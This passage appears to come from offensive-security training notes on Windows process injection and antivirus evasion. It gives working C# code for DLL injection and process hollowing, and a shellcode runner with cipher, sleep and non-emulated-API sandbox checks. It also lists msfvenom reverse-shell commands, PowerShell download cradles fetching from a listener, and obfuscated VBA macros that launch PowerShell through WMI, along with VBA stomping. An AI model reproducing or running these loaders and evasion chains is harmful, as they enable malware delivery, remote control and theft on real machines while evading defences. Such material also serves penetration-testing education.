| GetProcAddress(..., "LoadLibraryA") | Resolve LoadLibraryA address (same across processes) |
| WriteProcessMemory | Write the DLL path string into remote process memory |
| CreateRemoteThread | Start thread at LoadLibraryA with DLL path as argument |
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace DLLInject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress,
uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
public static extern IntPtr GetModuleHandle(string lpModuleName);
static void Main(string[] args)
{
// Download DLL to disk (LoadLibrary requires an on-disk file)
String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\payload.dll";
WebClient wc = new WebClient();
wc.DownloadFile("http://[listener-ip]/payload.dll", dllName);
// Open target process
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
// Allocate memory and write DLL path into remote process
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
// Resolve LoadLibraryA — same address in all processes for native DLLs
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
// Force remote process to call LoadLibraryA(dllPath)
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0,
loadLib, addr, 0, IntPtr.Zero);
}
}
}// Unmanaged DLL — DllMain executes shellcode on DLL_PROCESS_ATTACH
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
switch (ul_reason_for_call)
{
case DLL_PROCESS_ATTACH:
// Shellcode or payload goes here — called automatically by LoadLibrary
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_https \ LHOST=[listener-ip] LPORT=[listener-port] -f dll -o /var/www/html/payload.dll -
sudo python3 -m http.server 80 --directory /var/www/html -
sliver ([session]) > ps -e explorer sliver ([session]) > execute-shellcode -p [pid] /home/kali/payloads/sliver.x64.bin
7.4 Reflective DLL Injection
Reflective DLL injection removes the on-disk requirement of standard DLL injection. Instead of calling LoadLibrary with a path, a custom loader routine embedded inside the DLL parses its own PE headers and maps itself into memory without ever touching disk. The technique avoids registration in the process module list, making it invisible to tools like Process Explorer.

The PowerShell script Invoke-ReflectivePEInjection (by Joe Bialek and Matt Graeber) implements this. It accepts a byte array of a PE file and either loads it in-process or injects it into a remote process by PID. The byte array is populated via DownloadData, so the DLL never hits disk.
| Mode | Parameter | Effect |
|---|---|---|
| In-process | -PEBytes $bytes only | Loads DLL/EXE into current PowerShell process |
| Remote injection | -PEBytes $bytes -ProcId $pid | Maps DLL into specified remote process |
Methodology
-
$bytes = (New-Object System.Net.WebClient).DownloadData('http://[listener-ip]/payload.dll') $procid = (Get-Process -Name explorer).Id -
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1 Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid -
sliver ([session]) > ps -e explorer sliver ([session]) > migrate -p [pid]
7.5 Process Hollowing
Process hollowing targets processes that are permitted to generate network traffic, most notably svchost.exe. The attacker spawns a new, suspended instance of the legitimate process using CREATE_SUSPENDED (0x4), then overwrites its EntryPoint with shellcode before resuming execution. From the outside, the process looks exactly like a legitimate svchost.exe.

Locating the EntryPoint requires navigating the PE header in the suspended process. ZwQueryInformationProcess with ProcessBasicInformation yields the PEB address; the image base is at PEB+0x10; and the EntryPoint RVA is at PE header offset 0x28 (reached via the e_lfanew field at offset 0x3C). Adding the RVA to the image base gives the absolute EntryPoint address.
| Step | API / Field | Detail |
|---|---|---|
| 1. Create suspended process | CreateProcessW | dwCreationFlags = 0x4 (CREATE_SUSPENDED) |
| 2. Get PEB address | ZwQueryInformationProcess (class 0) | Returns PROCESS_BASIC_INFORMATION.PebAddress |
| 3. Read image base | ReadProcessMemory | Read 8 bytes at PebAddress + 0x10 |
| 4. Read PE header | ReadProcessMemory | Read 0x200 bytes from image base |
| 5. Find e_lfanew | PE offset 0x3C | Offset from image base to PE signature |
| 6. Find EntryPoint RVA | PE header + 0x28 | RVA of the process EntryPoint |
| 7. Write shellcode | WriteProcessMemory | Overwrite EntryPoint with shellcode |
| 8. Resume execution | ResumeThread | Thread runs shellcode instead of original code |
using System;
using System.Runtime.InteropServices;
namespace Hollow
{
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
struct STARTUPINFO
{
public Int32 cb; public IntPtr lpReserved; public IntPtr lpDesktop;
public IntPtr lpTitle; public Int32 dwX; public Int32 dwY;
public Int32 dwXSize; public Int32 dwYSize; public Int32 dwXCountChars;
public Int32 dwYCountChars; public Int32 dwFillAttribute; public Int32 dwFlags;
public Int16 wShowWindow; public Int16 cbReserved2;
public IntPtr lpReserved2; public IntPtr hStdInput;
public IntPtr hStdOutput; public IntPtr hStdError;
}
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_INFORMATION
{
public IntPtr hProcess; public IntPtr hThread;
public int dwProcessId; public int dwThreadId;
}
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_BASIC_INFORMATION
{
public IntPtr Reserved1; public IntPtr PebAddress;
public IntPtr Reserved2; public IntPtr Reserved3;
public IntPtr UniquePid; public IntPtr MoreReserved;
}
class Program
{
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine,
IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles,
uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
[In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess,
int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation,
uint ProcInfoLen, ref uint retlen);
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
[Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
static void Main(string[] args)
{
// Step 1: Create svchost.exe in suspended state
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe",
IntPtr.Zero, IntPtr.Zero, false, 0x4,
IntPtr.Zero, null, ref si, out pi);
// Step 2: Get PEB address via ZwQueryInformationProcess
PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi,
(uint)(IntPtr.Size * 6), ref tmp);
IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
// Step 3: Read image base from PEB+0x10
byte[] addrBuf = new byte[IntPtr.Size];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
// Step 4: Read first 0x200 bytes of PE to parse headers
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
// Step 5–6: Parse e_lfanew and locate EntryPoint RVA
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
uint opthdr = e_lfanew_offset + 0x28;
uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
// Step 7: Overwrite EntryPoint with shellcode
byte[] buf = new byte[] { /* XOR-decoded shellcode bytes */ };
WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
// Step 8: Resume the suspended thread — executes shellcode
ResumeThread(pi.hThread);
}
}
}Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp \ LHOST=[listener-ip] LPORT=[listener-port] \ EXITFUNC=thread -f raw | python3 -c \ 'key = 2; import sys; data = sys.stdin.buffer.read(); \ encrypted = bytes([b ^ key for b in data]); \ print(f"byte[] buf = new byte[{len(encrypted)}] {{ " + \ ", ".join([f"0x{b:02X}" for b in encrypted]) + " };")' -
sliver ([session]) > hollow svchost.exe /home/kali/payloads/sliver.x64.bin -
# Expected non-fatal error: # [!] Call extension error: rpc error: code = Unknown desc = The parameter is incorrect. # Session will still be established — check with sessions
7.6 Sliver Migration and Shellcode Injection
Sliver provides three built-in mechanisms for process migration that map directly to the techniques above. The migrate command handles token stealing and implant relocation in one step. The execute-shellcode command injects raw shellcode bytes into an existing process — useful when the target architecture requires an explicit 32-bit payload. The hollow command wraps process hollowing and is the recommended approach when AV is active.
A common pattern is to first spawn a sacrificial process (such as notepad.exe), then inject into it rather than into an already-running process to avoid disturbing application state. For stability, target explorer.exe; for evasion, target svchost.exe via hollowing.
| Sliver Command | Technique | Best Use Case |
|---|---|---|
migrate -p [pid] | Process migration / token steal | Moving into existing process as a different user |
execute-shellcode -p [pid] [bin] | Shellcode injection into PID | x86/x64 shellcode into existing process |
hollow [process] [bin] | Process hollowing | AV-present environments; hiding in svchost.exe |
Methodology
-
sliver ([session]) > execute C:\\windows\\system32\\notepad.exe sliver ([session]) > ps -e notepad -
sliver ([session]) > migrate -p [pid] -
sliver ([session]) > execute-shellcode -S -r -I 10 -p [pid] /home/kali/payloads/sliver.x64.bin -
sliver ([session]) > execute-shellcode -A 386 -p [pid] /home/kali/payloads/sliver.x86.bin -
sliver ([session]) > hollow svchost.exe /home/kali/payloads/sliver.x64.bin -
sliver ([session]) > ps -e explorer sliver ([session]) > migrate -p [pid] -
sliver > sessions sliver > use [session-id] sliver ([session]) > whoami
8. Introduction to Antivirus Evasion
8.1 Antivirus Software Overview
Modern antivirus software operates at multiple detection layers. Most products implement signature-based detection using MD5/SHA-1 hashes or unique byte sequences found in known-malicious files, and heuristic/behavioral detection that simulates file execution in a sandboxed environment. A newer cloud AI layer supplements these on endpoints, but endpoint performance constraints place practical limits on how deep any emulation engine can go.

Understanding which detection layer is firing — signature vs. heuristic — determines which bypass technique to apply. Signature bypasses address static byte patterns. Heuristic bypasses fool the emulation engine into thinking the binary is benign before any malicious action executes.
| Detection Method | Mechanism | Bypass Strategy |
|---|---|---|
| Signature (hash) | MD5/SHA-1 of file | Change any byte; custom packer/encryptor |
| Signature (byte string) | Match byte sequence inside file | Locate and modify offending bytes; encrypt payload |
| Heuristic/emulation | Simulate execution in sandbox | Sleep timers, non-emulated APIs, environment checks |
| Cloud/AI behavioral | Runtime telemetry + ML | Process injection, AMSI bypass, CLM bypass |
| AMSI | Runtime scan of PS/JScript/VBA/CLR | Reflection, binary patching, registry key |
Methodology
-
Get-WmiObject -Namespace root/SecurityCenter2 -Class AntiVirusProduct | Select displayName, productState
8.2 Locating Signatures in Files
Binary splitting isolates the exact byte offset responsible for triggering a signature, without requiring you to reverse-engineer the AV engine. The Find-AVSignature PowerShell script splits a binary into segments of configurable size and writes them to disk. ClamAV then scans the segments to determine which range contains the offending bytes. Each iteration narrows the range until the exact byte is identified.
Once found, modifying a single byte at that offset often defeats the signature match. If changing the exact offset byte does not evade detection, try the byte immediately before or after it. Note that a modified binary may lose functionality if the changed byte is part of shellcode — this approach works best for wrapper code, not embedded shellcode.
Methodology
-
Import-Module .\Find-AVSignature.ps1 Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\[payload].exe -OutPath C:\Tools\avtest1 -Verbose -Force -
cd 'C:\Program Files\ClamAV' .\clamscan.exe C:\Tools\avtest1 -
Find-AVSignature -StartByte [start-offset] -EndByte [end-offset] -Interval [smaller-interval] -Path C:\Tools\[payload].exe -OutPath C:\Tools\avtest2 -Verbose -Force -
$bytes = [System.IO.File]::ReadAllBytes("C:\Tools\[payload].exe") $bytes[[offset]] = 0 [System.IO.File]::WriteAllBytes("C:\Tools\[payload]_mod.exe", $bytes)
8.3 Metasploit Encoders and Encryptors
Metasploit's msfvenom tool provides both encoders and encryptors for payload obfuscation. Encoders such as x86/shikata_ga_nai produce polymorphic output but include a static decoder stub that is itself a detectable signature. Encryptors such as AES256 wrap the payload in encryption but similarly require a static decryption routine in the executable — both approaches are well-known to AV vendors and have signatures written for them.
64-bit payloads are less commonly seen than 32-bit variants, so a raw 64-bit Meterpreter may slip past older signature databases. Supplying a custom PE template with -x replaces the default msfvenom wrapper, which may carry its own signature. These techniques are building blocks for understanding the problem; custom code is needed for reliable evasion.
| Option | Flag | Notes |
|---|---|---|
| 32-bit polymorphic encoder | -e x86/shikata_ga_nai | Static decoder stub detected; ineffective alone |
| 64-bit encoder | -e x64/zutto_dekiru | Borrows shikata_ga_nai techniques; often caught |
| AES256 encryption | --encrypt aes256 --encrypt-key [key] | Decryption stub is static; still flagged |
| Custom PE template | -x [template.exe] | Replaces default wrapper; reduces some signatures |
| Stage encoding | set EnableStageEncoding true | Encrypts in-flight second stage; bypasses network AV |
Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] -f exe -o /var/www/html/met64.exe -
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o /var/www/html/met64_notepad.exe -
msf6 > use exploit/multi/handler msf6 exploit(multi/handler) > set EnableStageEncoding true msf6 exploit(multi/handler) > set StageEncoder x64/zutto_dekiru msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https msf6 exploit(multi/handler) > set LHOST [listener-ip] msf6 exploit(multi/handler) > set LPORT [listener-port] msf6 exploit(multi/handler) > run
8.4 C# Shellcode Runner vs. Antivirus
Writing a custom shellcode runner in C# bypasses signature detection because AV vendors cannot pre-sign every custom binary. The basic runner allocates executable memory with VirtualAlloc, copies shellcode into it with Marshal.Copy, then executes it via CreateThread. Even without any obfuscation, a custom runner often bypasses signatures because the code structure differs from known-malicious templates.
Adding a Caesar cipher to the embedded shellcode removes any static byte sequences from the payload. The decryption loop in the runner itself is simple enough to avoid detection as long as the implementation remains custom. Combining shellcode encryption with heuristic evasion techniques drives detection rates very low.
8.4.1 C# Shellcode Runner with Caesar Cipher
using System;
using System.Runtime.InteropServices;
namespace Runner {
class Program {
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
static void Main(string[] args) {
// Caesar cipher encrypted shellcode (key = 2, each byte += 2 during encryption)
byte[] buf = new byte[] { /* Caesar-encrypted shellcode bytes */ };
// Decrypt: subtract the cipher key from each byte
for (int i = 0; i < buf.Length; i++) {
buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
int size = buf.Length;
IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
Marshal.Copy(buf, 0, addr, size);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,
IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}8.4.2 Caesar Cipher Encryption Helper (C#)
// Run this separately to encrypt raw shellcode before embedding
byte[] buf = new byte[] { /* raw shellcode */ };
byte[] encoded = new byte[buf.Length];
for (int i = 0; i < buf.Length; i++) {
encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}
// Format for C# embedding
var hex = new System.Text.StringBuilder(encoded.Length * 2);
foreach (byte b in encoded) {
hex.AppendFormat("0x{0:x2}, ", b);
}
Console.WriteLine(hex.ToString());Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] -f raw -o /tmp/shellcode.bin -
# XOR encrypt with key 2 via msfvenom + python one-liner for C# format sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f raw | python3 -c 'key = 2; import sys; data = sys.stdin.buffer.read(); encrypted = bytes([b ^ key for b in data]); print(f"byte[] buf = new byte[{len(encrypted)}] {{ " + ", ".join([f"0x{b:02X}" for b in encrypted]) + " };")'
8.5 Sleep Timer Heuristic Bypass
Most AV emulators fast-forward through Sleep calls to avoid lengthy sandbox delays. By recording the system time before and after a Sleep call, the runner can detect whether emulation is occurring. If the elapsed time is less than expected, the runner exits without executing shellcode, appearing benign to the heuristic engine.
Combining the Sleep check with Caesar cipher encryption drives down detection rates significantly. The Sleep function is decades old as an evasion technique, yet modern AV products still fail to account for it when combined with custom code.
8.5.1 C# Sleep Timer Check
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
static void Main(string[] args) {
// Record time, sleep 2 seconds, check if at least 1.5 seconds elapsed
DateTime t1 = DateTime.Now;
Sleep(2000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if (t2 < 1.5) {
return; // Emulator fast-forwarded — exit without executing shellcode
}
// ... shellcode decryption and execution follows ...
}Methodology
8.6 Non-Emulated API Bypass
VirtualAllocExNuma allocates memory optimized for NUMA (Non-Uniform Memory Access) multi-processor systems. Because it is uncommon on standard single-CPU workstations, many AV emulators do not implement it. When the emulator encounters an unimplemented API, the call fails and returns NULL. The runner checks the return value and exits if allocation failed, detecting emulation before any malicious action occurs.
There is no definitive list of non-emulated APIs. Obscure Win32 APIs with niche hardware or performance purposes are good candidates — browsing MSDN for specialized memory, fiber, or NUMA-related APIs often surfaces viable options. FlsAlloc (Fiber Local Storage) is another documented candidate.
| API | DLL | Why Non-Emulated |
|---|---|---|
VirtualAllocExNuma | kernel32.dll | NUMA hardware optimization; rare on standard VMs |
FlsAlloc | kernel32.dll | Fiber Local Storage; uncommon code path |
8.6.1 C# VirtualAllocExNuma Check
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress,
uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
static void Main(string[] args) {
// If the emulator doesn't implement VirtualAllocExNuma, this returns NULL
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero,
0x1000, 0x3000, 0x4, 0);
if (mem == null) {
return; // Not running on real hardware — exit cleanly
}
// ... shellcode execution follows ...
}Methodology
8.7 VBA Antivirus Bypass
VBA shellcode runners embedded in Office documents face both signature detection on the shellcode bytes and heuristic detection of recognizable API patterns. Encrypting the shellcode with a Caesar cipher and implementing Sleep-based emulation detection addresses both layers, though the techniques are less effective in VBA than in C# because AV vendors focus heavily on Office macro evasion.
A more advanced technique — VBA Stomping — exploits the dual representation of VBA code in Office files: compiled P-code (for the exact Office version) and compressed source code. When the document is opened on the matching Office version, only the P-code executes. By zeroing out the source code (while preserving P-code), the macro disappears from the VBA editor while still running on execution — significantly reducing detection rates because most AV tools inspect the source rather than the compiled P-code.
| Technique | Mechanism | Effect |
|---|---|---|
| Caesar cipher (VBA) | Subtract key from each byte at runtime | Removes static shellcode signature |
| Sleep emulation check | DateDiff before/after Sleep call | Exits during AV sandbox simulation |
| VBA Stomping | Zero CompressedSourceCode; P-code executes | Hides macro from VBA editor; bypasses source-based AV scans |
| Editor link removal | Null out Module=NewMacros in PROJECT file | Hides macro entry from Office VBA editor (not from execution) |
8.7.1 VBA Caesar Decryption Routine
' Decryption routine — subtract cipher key from each byte
For i = 0 To UBound(buf)
buf(i) = buf(i) - 2
Next i8.7.2 VBA Sleep Emulation Detection
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Dim t1 As Date
Dim t2 As Date
Dim elapsed As Long
t1 = Now()
Sleep (2000)
t2 = Now()
elapsed = DateDiff("s", t1, t2)
If elapsed < 2 Then
Exit Function
End IfMethodology
-
# Python equivalent for VBA decimal output with key 2 payload="[powershell-download-cradle]" python3 -c "payload=\"$payload\"; print(''.join(f'{ord(char) + 17:03}' for char in payload))" -
EvilClippy.exe -s fake_code.vba [target-document].doc
8.8 WMI Process Dechaining
When VBA launches PowerShell via the Shell function, PowerShell becomes a child process of Microsoft Word — a highly suspicious process relationship that AV and EDR tools flag by default. Using the WMI Win32_Process.Create method instead spawns PowerShell as a child of WmiPrvSE.exe, breaking the detection chain.

The GetObject, Get, and Create VBA methods used in WMI process creation are more ambiguous to AV products than the explicit Shell function. This technique alone does not reduce detection rates significantly, but it is a prerequisite for the string obfuscation step that follows.
8.8.1 VBA WMI Process Creation
Sub MyMacro()
Dim strArg As String
strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://[listener-ip]/run.txt'))"
GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
Sub AutoOpen()
MyMacro
End SubMethodology
8.9 VBA String Obfuscation
Three static strings in the WMI-based VBA macro are prime signature targets: the PowerShell download cradle, the WMI connection string (winmgmts:), and the WMI class name (Win32_Process). Two obfuscation approaches address these. The first uses StrReverse to reverse strings, replacing the original signature with its mirror. The second — more robust — converts each character to its Caesar-shifted decimal value and decrypts at runtime using food-named helper functions to minimize recognizable function names.
Adding a document name check as a heuristic emulation bypass completes the chain. When AV products emulate a document, they typically rename it. Checking ActiveDocument.Name against the expected filename (also encrypted) exits cleanly if the names do not match, bypassing the emulator while executing normally for the intended victim.
8.9.1 PowerShell Encryption Script (for VBA String Obfuscation)
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://[listener-ip]/run.txt'))"
[string]$output = ""
$payload.ToCharArray() | % {
[string]$thischar = [byte][char]$_ + 17
if ($thischar.Length -eq 1) { $thischar = "00" + $thischar; $output += $thischar }
elseif ($thischar.Length -eq 2) { $thischar = "0" + $thischar; $output += $thischar }
elseif ($thischar.Length -eq 3) { $output += $thischar }
}
$output | clip8.9.2 VBA Decryption and Execution (with Food-Named Functions)
' Decryption helper functions — benign-looking names
Function Pears(Beets)
Pears = Chr(Beets - 17)
End Function
Function Strawberries(Grapes)
Strawberries = Left(Grapes, 3)
End Function
Function Almonds(Jelly)
Almonds = Right(Jelly, Len(Jelly) - 3)
End Function
Function Nuts(Milk)
Do
Oatmilk = Oatmilk + Pears(Strawberries(Milk))
Milk = Almonds(Milk)
Loop While Len(Milk) > 0
Nuts = Oatmilk
End Function
Function MyMacro()
' Document name check — exits if being emulated (AV renames the document)
If ActiveDocument.Name <> Nuts("[encrypted-document-name]") Then
Exit Function
End If
Dim Apples As String
Dim Water As String
Apples = "[encrypted-powershell-cradle]"
Water = Nuts(Apples)
GetObject(Nuts("[encrypted-winmgmts]")).Get(Nuts("[encrypted-Win32_Process]")).Create Water, Tea, Coffee, Napkin
End FunctionMethodology
-
payload="[document-name].doc" python3 -c "payload=\"$payload\"; print(''.join(f'{ord(char) + 17:03}' for char in payload))"
9. Advanced Antivirus Evasion
9.1 WinDbg Introduction
WinDbg is the Windows debugger used for inspecting and modifying code execution at the assembly level. Understanding WinDbg basics is essential for AMSI bypass development — the AMSI context corruption technique was discovered by inspecting the AmsiOpenSession function in WinDbg and identifying a header validation check that can be subverted.
The core workflow is: attach to a running process, set breakpoints on target functions, step through individual assembly instructions, and inspect or modify register and memory contents. WinDbg supports both 32-bit and 64-bit debugging, unlike Immunity Debugger which is 32-bit only.
| Command | Description |
|---|---|
bp kernel32!WriteFile | Set software breakpoint on a function |
g | Continue (go) execution until next breakpoint |
p | Step over (single-step one instruction) |
t | Step into (follow calls) |
r | Display all registers |
dc [addr] | Dump memory as DWORD + ASCII |
dq [addr] | Dump memory as QWORD (64-bit values) |
dd [addr] L1 | Dump a single DWORD at address |
ed [addr] [val] | Edit (write) a DWORD at address |
u [addr] | Unassemble (disassemble) instructions at address |
bl | List all breakpoints |
bc * | Clear all breakpoints |
Methodology
-
# Open WinDbg, File > Attach to Process (or Ctrl+P) # Select the target PID (e.g., powershell.exe) -
0:005> bp kernel32!WriteFile 0:005> g # Trigger the function (e.g., save a file in Notepad) # WinDbg breaks when the function is called -
# Step one instruction at a time 0:000> p # Display register contents 0:000> r # Dump memory at RSP as DWORD + ASCII 0:000> dc rsp # Dump memory at RSP as 64-bit values 0:000> dq rsp -
# View a single DWORD 0:000> dd rsp L1 00000063`4c93e8c8 9a465c0e # Overwrite it with zero 0:000> ed rsp 0 # Verify the change 0:000> dd rsp L1 00000063`4c93e8c8 00000000 -
# Disassemble AmsiOpenSession to find the header validation 0:014> u amsi!AmsiOpenSession amsi!AmsiOpenSession: cmp dword ptr [rcx],49534D41h ; compares first 4 bytes to "AMSI" jne amsi!AmsiOpenSession+0x4b ; jump if header doesn't match # The value 49534D41h is the ASCII bytes for "AMSI" (little-endian) # If this check fails, AmsiOpenSession returns E_INVALIDARG (0x80070057) # and AMSI stops scanning — this is the basis for the reflection bypass
9.2 AMSI Overview
